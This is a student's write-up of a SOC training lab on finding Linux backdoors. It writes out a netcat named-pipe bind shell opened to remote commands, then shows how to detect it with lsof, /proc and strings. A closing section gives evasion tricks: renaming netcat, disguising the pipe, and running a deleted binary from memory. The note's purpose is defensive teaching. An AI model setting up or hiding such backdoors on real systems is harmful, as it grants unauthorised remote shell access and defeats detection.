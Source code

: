 ```yaml
---
{"dg-publish":true,"permalink":"/webinars-and-training/black-hills-soc-core/labs/bhis-socc-lab-linux-cli/","updated":"2025-06-09T11:43:20.393-07:00"}
---
```



## LAB:  [IntroClass/LinuxCLI](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md)
Section Notes - [[Webinars and Training/BlackHills SOC Core/Topics/SOCC02 - Linux\|SOCC02 - Linux]]
## Linux Lab
In this lab, we're investigating [[Definitions and Topics/backdoor\|backdoors]] on a [[Tool Deep-Dives/Linux/Linux\|Linux]] system. In this write-up, I'm going to separate the commands into three different shell sessions; *Server*, *Adversary*, and *Analyst*, 
1. Configure the "server" to listen for commands from the "client" machine
	1. *Server* terminal^[In the real world, these commands would likely be executed in a malware's payload]
		2. Open a Ubuntu shell and log in as Super User
			1. `sudo su -`
		3. Create a FIFO (first in, first out) [[Tool Deep-Dives/Linux/Named Pipe\|backpipe]]
			1. `mknod backpipe p`
				1. [mknod](https://man7.org/linux/man-pages/man2/mknod.2.html) Creates a named pipe called `backpipe`
		4. Start the backpipe
			1. `/bin/bash 0<backpipe | nc -l 2222 1>backpipe`
				1. Basically creates a netcat listener that forwards all input through a backpipe and then into a bash session, and then passes the output back to the listener ([MITM](https://ccnadefinitions.com/ccna/20-definitions/mitm-on-path/))?
					1. `0` - standard input
					2. `1` - standard output
					3. `2` - error
				2. `nc` = netcat
					1. `-l 2222` = listen on port *2222*
				3. For the backpipe, don't forget that *0* **<** *backpipe*, and *1* **>** *backpipe*
					1. Where a *pipe* is monodirectional, a [[Tool Deep-Dives/Linux/Named Pipe\|Named Pipe]] can move data in any direction want
						1. netcat to backpipe, backpipe to bash, bash to netcat, etc...
						2. infinite loop
		5. At this point, the shell is chilling; the command, running. We need to send it some commands.
	2. *Adversary* terminal
		1. Get your IP address and establish a connection to the *Server*
			1. `ip a`
			2. `nc <your IP address> 2222`
		2. If you connect correctly, it's going to look like it's chilling too; but let's type some commands
			1. `ls`
			2. `whoami`
			3. ![BHIS-SOCC-lab-LinuxCLI.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI.png)
				1. **NOTE**: In this go-through, I changed the backpipe name to `5FTP` to see how it looked, and I hate it.
		3. At this point, we have demonstrated that we have established [[Definitions and Topics/Remote Shell\|Remote Shell]], and are ready to start looking for clues
2. Investigate from the *Analyst* terminal
	1. In the [lab](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md), they suggest logging in as Root; this is generally a bad idea in the real world (like logging in as domain admin), and we should be able to accomplish most commands just running them with `sudo`.
	2. Look for network connection processes
		1. [[Tool Deep-Dives/Linux/lsof\|lsof]] 
		2. `sudo lsof -i -P`
			1. `-i` is internet connections
			2. `-P` port number only (don't guess the service)
			3. ![BHIS-SOCC-lab-LinuxCLI-1.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-1.png)
		3. This shows us the services that look strange; we can dig into a specific process with lowercase `-p`
			1. `lsof -p [process ID]`
				1. In my case, `sudo lsof -p 372`
			2. Shows everything associated with that particular PID
			3. ![BHIS-SOCC-lab-LinuxCLI-2.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-2.png)
	4. Investigate the process files
		2. `cd /proc/[pid]`
		3. `ls`
			1. Everything associated with the memory of the executable *as it resides in memory*
		5. `strings ./exe | less`
			1. Prints out everything that's actively running *in memory*, and we can find netcat below
				1. ![BHIS-SOCC-lab-LinuxCLI-5.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-5.png)
			2. If there's a program with a manual page, you can scroll through and find it with strings/less

 This is where the lab ends in the GitHub repo, but Mr. Strand had a few more tricks to share.
 
### Other ways to avoid detection
1. Rename netcat to anything else
	1. Note, here we used the [[Tool Deep-Dives/Linux/which\|which]] command to quickly locate the [[Tool Deep-Dives/Netcat\|Netcat]] application file.
	2. ![BHIS-SOCC-lab-LinuxCLI-8.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-8.png)
		1. I also took the opportunity to create a new backpipe name, `logfile`, which is still suspicious but not the same as `backpipe`, and renamed [[Tool Deep-Dives/Netcat\|Netcat]] to `netlog`
	3. And now look! A happy little `netlog` has an open connection to the internet, and it's just writing to a `logfile`!
		1. ![BHIS-SOCC-lab-LinuxCLI-9.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-9.png)
		2. ![BHIS-SOCC-lab-LinuxCLI-10.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-10.png)
		3. However, if we run `strings ./exe | less` on it, we still find netcat
			1. ![BHIS-SOCC-lab-LinuxCLI-11.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-11.png)
2. Hiding the file on the system
	1. You could use a . to hide it (`.notevil`), but it's crazier to unlink it (i.e. program running in memory disconnected from program in storage)
		1. e.g., the program in storage was deleted
		2. If you delete the file (`rm notevil`) *while it's running*, it will continue to run *in memory*
	4. How to detect?
		1. `lsof +L1`
			1. Shows all system files running without any links^[It also still shows up in regular `lsof -i -P`, but this just highlights anything that is trying to hide and wouldn't be found in traditional file scans.]
			2. ![BHIS-SOCC-lab-LinuxCLI-12.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-12.png)
		2. Once detected, you can `kill` or `pkill` to end the unlinked process, and kill its access
